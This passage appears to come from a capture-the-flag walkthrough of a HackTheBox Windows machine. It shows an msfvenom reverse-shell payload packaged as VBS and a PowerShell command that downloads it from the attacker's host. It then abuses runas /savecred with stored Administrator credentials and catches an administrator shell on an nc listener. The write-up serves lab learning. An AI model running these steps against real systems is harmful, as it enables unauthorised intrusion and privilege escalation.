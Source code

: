 

<p>I wanted to upgrade to a proper shell as using Telnet is very difficult to use due to not being able to delete letters or press up on the keyboard to replay things in the buffer.</p>



<p>So know thing that .exes cant be run and that there are .vbs files in the scripts folder&nbsp; - maybe the user can run .vbs files?<br></p>



<pre class="wp-block-preformatted">msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.234 LPORT=443 --platform windows -a x64 -f vbs -o shell.vbs</pre>



<p>I created a .vbs file, downloaded it to the server and tried to run it but no luck - looks like .vbs files can only be run by the administrator.<br></p>



<pre class="wp-block-preformatted">powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.234/shell.vbs','C:\temp\scripts\shell.vbs')"</pre>



<pre class="wp-block-preformatted">C:\temp\scripts&gt;shell.vbs<br>Access is denied.<br>C:\temp\scripts&gt;</pre>



<pre class="wp-block-preformatted">For the vbs scripts: <br>Go to windows Services and stop ALL SQL related services.<br>Open command prompt with elevated privileges (Administrator).<br>paste the following commands in command prompt for each script and click ENTER…<br>1. cmd.exe /c WScript.exe "c:\temp\scripts\SQLOpenFirewallPorts.vbs" "C:\Windows\system32" "c:\temp\logs\"</pre>



<p>I need to use the runas command as it has a flag /savecreds which takes advantage of the administrator saved creds on the system. <br></p>



<p>So following the guide in the README_FIRST.txt I created this runas command with a nc listener on port 443.<br></p>



<pre class="wp-block-preformatted">runas /user:Administrator /noprofile /savecred "cmd.exe /c WScript.exe "c:\temp\scripts\shell.vbs""</pre>



<pre class="wp-block-preformatted">[root:~/htb]# nc -lnvp 443<br>listening on [any] 443 …<br>connect to [10.10.14.234] from (UNKNOWN) [10.10.10.98] 49158<br>Microsoft Windows [Version 6.1.7600]<br>Copyright (c) 2009 Microsoft Corporation.  All rights reserved.<br>C:\Windows\system32&gt;type c:\users\administrator\desktop\root.txt<br>type c:\users\administrator\desktop\root.txt<br>Access is denied.<br>C:\Windows\system32&gt;whoami<br>whoami<br>access\administrator<br>C:\Windows\system32&gt;</pre>



<p>So I got connected but strangely I could not read the root.txt file even though I'm logged in as administrator. I always find it easier to work with remote desktop. I know its very noisy but for this final bit its worth it. </p>
